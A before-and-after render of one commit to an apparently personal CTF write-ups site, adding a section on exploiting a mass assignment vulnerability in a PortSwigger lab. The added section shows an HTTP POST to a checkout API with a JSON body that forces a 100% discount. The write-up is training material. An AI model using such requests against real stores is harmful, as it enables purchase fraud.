

Before and after one commit to Sirius-A/ctf-writeups, an MkDocs documentation site: the page built from docs/writeups/2023/portswigger-bscp-labs/api-hacking.md, in a window 1280 px wide. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

````diff
--- a/docs/writeups/2023/portswigger-bscp-labs/api-hacking.md
+++ b/docs/writeups/2023/portswigger-bscp-labs/api-hacking.md
@@ -16,3 +16,16 @@ Content-Length: 12
 ```
 
 ## Exploiting a mass assignment vulnerability
+
+It is possible to send a `POST` request to the `checkout` endpoint with 100%
+discount.
+
+```
+POST /api/checkout HTTP/2
+Host: 0af0002804d0d47e86ff4f3200e200aa.web-security-academy.net
+Cookie: session=42Y5LbakIMHg3C8i7egh1Kt9P1E6UWD9
+Content-Type: application/json;charset=UTF-8
+[...]
+
+{"chosen_discount":{"percentage": 100},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
+```
````
Also changed, not shown: README.md (+1 -1 lines).
